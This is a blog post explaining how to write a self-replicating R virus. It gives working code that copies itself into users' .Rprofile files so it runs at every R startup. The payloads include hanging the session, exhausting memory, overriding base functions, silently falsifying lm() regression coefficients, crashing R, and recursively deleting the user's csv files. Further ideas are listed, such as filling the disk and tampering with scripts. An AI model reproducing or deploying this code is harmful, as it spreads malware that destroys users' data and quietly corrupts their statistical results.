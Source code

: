 ```yaml
---
title: 'How to Write an R Virus '
author: Siqi Zhang
date: '2018-09-27'
slug: how-to-write-an-r-virus
categories:
  - R
tags:
  - Programming
---
```


A [computer virus](https://en.wikipedia.org/wiki/Computer_virus) is a piece of program that can:

 - copy itself
 - do bad things     

This is not very hard to accomplish with R, as I will demonstrate in this article.  

  
##Replicate##

The [_virus_](https://gist.github.com/iqis/e4030f6af45d0d3ebae21f2816c1fc58) exploits R's initilization script, `.Rprofile`. When R starts up, it is going to look for this file in the current working directory and the user's home directory, then runs everything in it:
```r
{
    function() {
        rp_paths <- c("~/.Rprofile", paste0(getwd(), "/.Rprofile"))
        inject <- function(rp, code) {
            write(code, file = rp, append = FALSE)
        }
        lapply(rp_paths, inject, code = deparse(match.call()))

        cat("Wow, your R is Rancid!!!\n")
    }
}()

```

When the above script is run, it will make a copy of itself through `deparse(match.call())`, and overwrite the `.Rprofile` files. The next time you open a new R session, everything you see in the above will be run again. Right now, our virus does nothing but printing something at the end of your start up message.

```
...

Type 'demo()' for some demos, 'help()' for on-line help, or
'help.start()' for an HTML browser interface to help.
Type 'q()' to quit R.

Wow, your R is Rancid!!!
```
Any project that started by the user is going to have its project folder infected. Likewise, if someone copy-and-pasted the R project folder to another computer, and start R from there, his home folder is going to be infected.

  
##Damage##

It looks like that the replication part of the virus is taken care of. What, then, are some malicious scripts that we can have fun with? 

There could be countless ways.

One of the easiest thing to do is to hang the user's R session. It could be done as simply as putting it to _sleep_ for a really long time:
```r
Sys.sleep(1e9)
```
... like 30 years, give or take.

Or, let R come up with a really large number; this is also going take up available memory to the user.
```r
rnorm(1e9)
```
For me, 1e9 is quite enough. But scientific notaion is your friend. Go big.

However, if R is rendered completely unusable, the virus isn't goint to travel very far. That's not what we want. It is also a great idea to replace some good functions with naughty ones. Symbol bindings are locked in attached namespaces, but it is easy to undo that:
```r
reassign <- function(sym, value, envir) {
        envir <- as.environment(envir)
        unlockBinding(sym, envir)
        assign(sym, value, envir = envir)
}
```

We can do the user a service by forbidding the `library()` function, and prompt a better option.
```r
reassign("library", 
         function(...) warning("No man, seriously. Use require()"),
         "package:base"
)
```

The effect would be:
```r
library(purrr)
```

Now let's try something more subtle and more bad(_badder_?). We first extend the `reassign()` function a little bit...
```r
tamper <- function(sym, value, envir){
        assign(paste0(".",sym), 
               get(sym, envir = as.environment(envir)), 
               envir = as.environment("package:base")
               )
        reassign(sym, value, envir)
}
```

... and use it to slip in some bad code.
```r
tamper("lm",
       function(...){
               model <- .lm(...)
               model$coefficients <- 
                       model$coefficients * (1 + rnorm(1))
               model
               },
       "package:stats")
```

Now when we build a model; the coefficients looks normal, but are completely off. You can compare the this with the result on your own computer.
```r
lm(mpg ~ ., data = mtcars)$coefficients
```

In the above, we saved a copy of the original function in the base package. If we didn't do that, we would have create an infinite recursion through self-refernce, such as:
```r
reassign("paste",
         function(...) paste(...),
         "package:base")

```

```r
paste("foo", "bar")
```
Running this will crash the R session. If the user didn't save documents before setting off this bomb, too bad.

There are yet more ways to damages. For starters, how about deleting every `csv` file the user has in the working directory? 
```r
file.remove(list.files(getwd(), 
                       ".csv",
                       recursive = TRUE)
```

Doing something on the file system can mean a lot.

From annoying to destructive, the level of naughtiness only limited by on your imagination. With some deliberation, you can ruin someone's life in a very meaningful way. 

Here are some futher ideas:

  -  Bloat the user's disk space with meaningless data
  -  Give wrong results only _sometimes_ when a function is called
  -  Use Rstudio API to mess with the user's scripts



**Note**  
You also have the choice of putting any of the malicious programs in `.First()` and `.Last()` functions, which will run at the beginning and the end of a session. See the [R Manual](https://stat.ethz.ch/R-manual/R-devel/library/base/html/Startup.html) for details. 

More on `.Rprofile`: [Fun with .Rprofile and customizing R startup](http://www.onthelambda.com/2014/09/17/fun-with-rprofile-and-customizing-r-startup/)
